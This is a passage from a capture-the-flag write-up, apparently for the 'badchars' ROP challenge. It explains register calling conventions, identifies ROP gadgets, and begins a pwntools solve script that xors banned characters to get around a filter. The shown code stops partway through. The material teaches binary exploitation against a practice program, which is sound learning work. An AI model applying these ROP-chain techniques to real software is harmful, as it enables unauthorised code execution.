 ![puts@plt ($rdi, $rsi, $rdx)](/img/writeups/2023/upsolving/pwn-progress-2/putscall.png)

As you can see, the first argument to the function is passed in `rdi`, the second in `rsi`, and the third in `rdx`. 

That means to call `print_file` with our `flag.txt` string, we need to load the address of the string into `rdi` and then call `print_file`.

Using ROPgadget again, we can see that thankfully there's a simple `pop rdi` gadget:
```
0x00000000004006a3 : pop rdi ; ret
```

So all we need to do is load the address of the string onto the stack, use the `pop rdi` gadget, then `ret` to the start of `print_file`.

That's all the parts we need. But before we write the exploit we need to keep in mind two things:
1. The gadget for writing to memory is a `qword ptr`, but the `xor` gadget only uses a `byte ptr`. This means we need to `xor` each banned character individually.
2. Additionally, the bad chars can't be present at any part of the payload, *including* the addresses we use.

Here's a quick draft of the exploit, I've created a helper function to make things easier:

filename=solve.py
```py
from pwn import *

elf = ELF('./badchars')
p = process('./badchars')

# 0x000000000040069c : pop r12 ; pop r13 ; pop r14 ; pop r15 ; ret
# 0x0000000000400634 : mov qword ptr [r13], r12 ; ret
# 0x00000000004006a0 : pop r14 ; pop r15 ; ret
# 0x0000000000400628 : xor byte ptr [r15], r14b ; ret

CHUNKSIZE = 8
r = 100
def write_str(target, str, badchars=[]):
    payload = b''
    chunks = [str[i:i+CHUNKSIZE].encode() for i in range(0, len(str), CHUNKSIZE)]

    for i, chunk in enumerate(chunks):
        rchunk = b''
        r_indexes = []
        for j, c in enumerate(chunk):
            if chr(c) in badchars: # keep track of which indexes we need to xor later
                rchunk += bytes([c ^ r])
```